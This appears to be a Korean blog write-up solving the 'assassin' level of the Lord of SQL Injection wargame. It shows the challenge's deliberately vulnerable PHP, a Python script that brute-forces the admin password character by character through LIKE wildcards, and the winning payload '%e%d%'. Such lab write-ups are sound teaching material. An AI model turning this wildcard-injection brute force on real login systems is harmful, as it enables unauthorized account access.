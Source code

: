 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.  

`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------
query : select id from prob_assassin where pw like ''
-------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.  

그리고 `=` 대신에 `like`이 쓰였다.  

처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.  

그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.  

나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.  

그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.  

`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.  

예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.  

때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.  

즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.  

반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.  

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.  

가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.  

`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.  

그런데 `Hello guest`가 출력되었다.  

아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.  

그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.  

손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)  

그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.  

그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.  

그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```
?pw=%e%d%
```

```php
------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

`ASSASSIN Clear!!`